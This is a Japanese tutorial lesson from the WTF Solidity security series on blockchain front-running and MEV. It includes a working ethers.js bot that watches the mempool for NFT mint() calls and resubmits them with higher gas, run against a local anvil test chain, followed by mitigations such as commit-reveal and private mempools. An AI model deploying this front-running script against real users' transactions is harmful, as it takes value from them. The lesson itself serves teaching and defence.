



# WTF Solidity 合約セキュリティ: S11. フロントランニング

最近、Solidityを再学習し、詳細を固めるために「WTF Solidity 合約セキュリティ」を書いています。初心者向けのチュートリアル（プログラミング上級者は他のチュートリアルを参照してください）で、毎週1-3レッスンを更新します。

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ: [Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはgithubで公開: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

このレッスンでは、スマートコントラクトのフロントランニング（Front-running、抢跑）について紹介します。統計によると、イーサリアム上の裁定取引者は、サンドイッチ攻撃によって[総計12億ドル](https://dune.com/chorus_one/ethereum-mev-data)を稼いでいます。

## Front-running

### 従来のフロントランニング
フロントランニングは最初に従来の金融市場で生まれ、純粋に利益のための競争でした。金融市場では、情報の非対称性が金融仲介機関を生み出し、これらの機関は特定の業界情報を最初に知り、最初に反応することで利益を実現できます。これらの攻撃は主に株式市場取引と初期のドメイン名登録で発生しました。

2021年9月、NFTマーケットプレイスOpenSeaのプロダクト責任者Nate Chastainが、OpenSeaの首页で展示されるNFTを先行購入して利益を得ていたことが発見されました。
彼は内部情報を利用して不公平な情報優位性を獲得し、OpenSeaが首页でプッシュするNFTを事前に知り、首页での展示前に先行購入し、NFTが首页に掲載された後に売却していました。しかし、ある人がNFT取引のタイムスタンプとOpenSea上の問題のあるNFTの首页プロモーションを照合することで、この違法行為を発見し、Nateは法廷に送られました。

従来のフロントランニングの別の例は、トークンが[Binance](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[Coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)などの有名な取引所に上場される前に、内部情報を得た者が事前に購入することです。上場アナウンスが発表された後、トークン価格は大幅に上昇し、この時フロントランナーは売却して利益を得ます。

### オンチェーンフロントランニング

オンチェーンフロントランニングとは、検索者やマイナーが`gas`を上げたりその他の方法で、自分の取引を他の取引の前に挿入して価値を奪取することを指します。ブロックチェーンでは、マイナーは自分が生成するブロック内の取引を包装、除外、または再順序付けすることで一定の利益を得ることができ、`MEV`はこのような利益を測定する指標です。

ユーザーの取引がマイナーによってイーサリアムブロックチェーンにパッケージされる前に、ほとんどの取引はMempool（取引メモリプール）に集まります。マイナーはここで手数料の高い取引を優先的にパッケージして、利益を最大化します。通常、gas priceが高い取引ほど、パッケージされやすくなります。同時に、一部の`MEV`ボットも`mempool`内で利益を得られる取引を検索します。例えば、分散取引所でスリッページ設定が過度に高い`swap`取引は、サンドイッチ攻撃を受ける可能性があります：gasを調整することで、裁定取引者はこの取引の前に買い注文を挿入し、その後に売り注文を送信して利益を得ます。これは市場価格の吊り上げと同等です。


## フロントランニングの実践

フロントランニングを学べば、あなたは入門レベルの暗号通貨科学者と言えるでしょう。次に、実践してみましょう。NFTミントトランザクションをフロントランニングします。使用するツール：
- `Foundry`の`anvil`ツールでローカルテストチェーンを構築します。事前に[foundry](https://book.getfoundry.sh/getting-started/installation)をインストールしてください。
- `remix`でNFTコントラクトのデプロイとミントを行います。
- `etherjs`スクリプトで`mempool`を監視してフロントランニングを実行します。

**1. Foundryローカルテストチェーンの起動：** `foundry`をインストールした後、コマンドラインで`anvil --chain-id 1234 -b 10`を入力してローカルテストチェーンを構築します。chain-idは1234、10秒ごとに1つのブロックを生成します。構築に成功すると、いくつかのテストアカウントのアドレスと秘密鍵が表示され、各アカウントには10000 ETHがあります。これらをテストに使用できます。



**2. Remixをテストチェーンに接続：** Remixのデプロイページを開き、左上角の`Environment`ドロップダウンメニューを開いて、`Foundry Provider`を選択すると、Remixがテストチェーンに接続されます。



**3. NFTコントラクトのデプロイ：** Remix上で簡単なfreemint（無料ミント）NFTコントラクトをデプロイします。NFTを無料でミントするための`mint()`関数があります。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.21;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// Free mint取引をフロントランニングしてみる
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // コンストラクタ、NFTコレクションの名前、シンボルを初期化
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // ミント関数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. ethers.jsフロントランニングスクリプトのデプロイ：** 簡単に言うと、`frontrun.js`スクリプトはテストチェーン`mempool`内の未決取引を監視し、`mint()`を呼び出した取引を抽出し、それをコピーして`gas`を上げてフロントランニングします。`ether.js`に慣れていない場合は、[WTF Ethers極簡チュートリアル](https://github.com/WTFAcademy/WTF-Ethers)をお読みください。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. providerを作成
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] chain ID ${res.chainId}に接続`));

// 2. interfaceオブジェクトを作成、取引詳細をデコードするために使用
const iface = new utils.Interface([
    "function mint() external",
])

// 3. ウォレットを作成、フロントランニング取引を送信するために使用
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. pendingのmint取引を監視し、取引詳細を取得してデコード
    console.log("\n4. pending取引を監視、txHashを取得し、取引詳細を出力。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // tx詳細を取得
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // pendingTx.dataをフィルタ
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // txHashを印刷
                    console.log(`\n[${(new Date).toLocaleTimeString()}] Pending取引を監視: ${txHash} \r`);

                    // デコードされた取引詳細を印刷
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending取引詳細デコード：")
                    console.log(parsedTx);
                    // Input dataデコード
                    console.log("raw transaction")
                    console.log(tx);

                    // フロントランニングtxを構築
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // フロントランニング取引を送信
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`フロントランニング取引中`)
                    await txResponse.wait()
                    console.log(`フロントランニング取引成功`)
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });
};

main()
```

**5. `mint()`関数の呼び出し：** Remixのデプロイページで、Freemintコントラクトの`mint()`関数を呼び出してNFTミントを実行します。

**6. スクリプトが取引を監視してフロントランニングを実行：** ターミナルで`frontrun.js`スクリプトが取引を正常に監視し、フロントランニングを実行したことが確認できます。NFTコントラクトの`ownerOf()`関数を呼び出して`tokenId`が0の所有者がフロントランニングスクリプト内のウォレットアドレスであることを確認すれば、フロントランニング成功です！


## 予防方法

フロントランニングは、イーサリアムなどのパブリックチェーン上で普遍的に存在する問題です。これを完全に排除することはできませんが、取引順序や時間の重要性を減らすことで、フロントランニングによる利益を減らすことができます：

- コミット・リビール・スキーム（commit-reveal scheme）を使用する。
- ダークプールを使用する。ユーザーが発行した取引は公開の`mempool`に入らず、直接マイナーの手に渡る。例：flashbotsやTaiChi。
- 呼び出しパラメータに保護パラメータを追加する。例：[スリッページ保護](https://uniswapv3book.com/milestone_3/slippage-protection.html)。これによりフロントランナーの潜在的利益を減らす。

## まとめ

このレッスンでは、イーサリアムのフロントランニング（抢跑）について紹介しました。この従来の金融業界由来の攻撃手法は、すべての取引情報が公開されているため、ブロックチェーンではより実行しやすくなっています。NFTミント取引をフロントランニングする実践を行いました。同様の取引が必要な場合は、隠しメモリプールをサポートするか、バッチオークションなどの措置を実施して制限することが最善です。これはイーサリアムなどのパブリックチェーン上で普遍的に存在する問題であり、完全に排除することはできませんが、取引順序や時間の重要性を減らすことで、フロントランニングによる利益を減らすことができます。